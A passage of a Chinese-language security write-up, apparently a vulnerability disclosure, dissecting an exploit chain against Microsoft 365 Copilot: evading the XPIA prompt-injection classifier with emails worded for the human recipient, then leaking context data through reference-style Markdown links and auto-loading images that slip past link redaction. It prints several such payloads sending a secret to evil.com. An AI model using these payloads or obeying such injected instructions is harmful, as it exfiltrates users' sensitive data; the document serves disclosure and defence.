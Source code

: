1. 检索：Copilot 将敏感数据泄漏给攻击者。【利用 2：链接编辑绕过】、【利用 3：CSP 绕过】  
  
## 利用链拆解  
### XPIA 绕过  
  
微软用于防止 AI 提示注入攻击的主要护栏之一是 XPIA（交叉提示注入攻击）分类器。通常情况下这些分类器可以阻止提示注入到达 M365 Copilot 的底层LLM。  
  
不幸的是，这很容易被绕过，只需将包含恶意指令的电子邮件措辞为这些指令是针对收件人的，就可以轻松绕过。  
  
由于电子邮件的内容从不涉及 AI/助手/Copilot 等，以确保 XPIA 分类器不会将该电子邮件检测为恶意邮件。  
  
另一个不幸的是，实际提示注入的质量数据集很少，由于快速注入可以隐藏多种主题，短语，音调，语言等，因此对 XPIA 分类器进行了适当的训练就需要大量的训练数据，而这些数据目前是缺失的。  
### 链接编辑绕过  
  
为了从 M365 Copilot 的上下文中泄露数据，还需要一个输出通道。  
  
因为 M365 Copilot 只能访问组织资源，并且仅对员工可访问，因此需要通过向用户提供一个链接，然后将用户带到攻击者的域名，并在攻击者的服务器上记录查询字符串参数来窃取数据。  
  
攻击者的指令指定查询字符串参数应该是LLM上下文中最敏感的信息，从而完成数据泄露。  
  
听起来很简单，是吧？  
  
这种方法的问题在于，Copilot 在用户有机会点击这些链接之前，就会从聊天历史中删除外部的Markdown 链接。  
  
Markdown链接类似下方格式的文本，它们在客户端渲染时可以点击。  
  
[Link display text](https://www.evil.com?param=<secret>)  
  
解决方案会确保仅将安全链接目标（即内部网页）呈现为用户可点击的链接。  
  
关于Markdown，其内容总比你想象的要多，比如下面引用样式的Markdown链接就不会被Microsoft有效识别：  
```
[Link display text][ref][ref]: https://www.evil.com?param=<secret>
```  
  
还有一些未被删除的变体，比如：  
```
[Link display text][Link display text]: https://www.evil.com?param=<secret>[Link display text][][Link display text]: https://www.evil.com?param=<secret>
```  
  
利用这些绕过，就可以构建出第一条利用链：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkYuOfTErPx6icEb9fzEpEibFefmSvbklXHhkprhoibk5AluyEVYECYRoib7JKMkXxBXkGbDBEujEEicMg/640?wx_fmt=png&from=appmsg "")  
### 图片编辑绕过  
  
为什么只满足于用户点击一个链接呢？是否可以做得更加巧妙？  
  
当尝试让LLM输出一张图片时，浏览器将自动尝试获取图片，因此我们可以不需要用户点击任何东西，而是让浏览器“帮我们点击链接”。  
  
Markdown的图片格式与Markdown链接非常相似，只是前面多了一个感叹号：  
  
![Image alt text](https://www.evil.com/image.png?param=<secret>)  
  
这样的Markdown图片格式也同样会受到链接编辑限制，但Markdown也支持引用图片：  
```
![Image alt text][ref][ref]: https://www.evil.com?param=<secret>
```  
  